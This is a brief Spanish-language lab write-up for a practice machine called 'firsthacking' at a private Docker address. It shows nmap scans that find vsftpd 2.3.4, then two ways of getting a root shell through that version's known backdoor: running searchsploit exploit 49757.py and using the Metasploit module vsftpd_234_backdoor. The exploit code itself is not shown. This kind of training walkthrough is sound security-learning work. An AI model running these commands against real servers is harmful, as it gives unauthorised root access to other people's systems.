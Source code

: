 ### maquina firsthacking

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

21/tcp open  ftp     syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p21 -vvv -Pn 172.17.0.2

21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4

## Intrusion

buscamos en searchploit

![alt text](image-9.png)


descargamos el exploit

searchsploit -m unix/remote/49757.py

ejecutamos 2 veces el exploit para que funcione

python3 49757.py 172.17.0.2

accedimos como root

![alt text](image-10.png)


# Metasploit

usamos el exploit exploit/unix/ftp/vsftpd_234_backdoor

configuramos el exploit

set RHOSTS 172.17.0.2

run 

listo somos root

![alt text](image-11.png)




